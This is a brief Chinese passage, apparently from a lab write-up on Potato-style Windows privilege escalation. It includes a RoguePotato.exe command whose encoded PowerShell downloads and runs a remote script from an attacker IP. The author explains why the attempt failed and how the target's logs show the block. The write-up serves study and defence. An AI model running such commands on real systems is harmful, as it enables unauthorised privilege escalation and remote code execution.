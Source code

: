 

执行`RoguePotato.exe`来尝试以高权限加载远程Powershell马，但是失败了，提示"Named pipe didn't received any connect request"，其意思是命名管道没有收到DCOM服务的请求，这可能是防火墙导致的

```
RoguePotato.exe -r 192.168.47.188 -e "cmd.exe /c powershell -EncodedCommand SQBFAFgAKAAgAEkAVwBSACAAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANAA3AC4AMQA4ADgAOgA4ADAALwBhACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwApAAoA" -l 9999
```

![image-20240124175557461](土豆提权原理/image-20240124175557461.png)



分析目标主机的系统日志，可以发现 `RoguePotato.exe` 尝试向远程主机发送oxid解析请求时被拦截了

![image-20240124180120509](土豆提权原理/image-20240124180120509.png)	
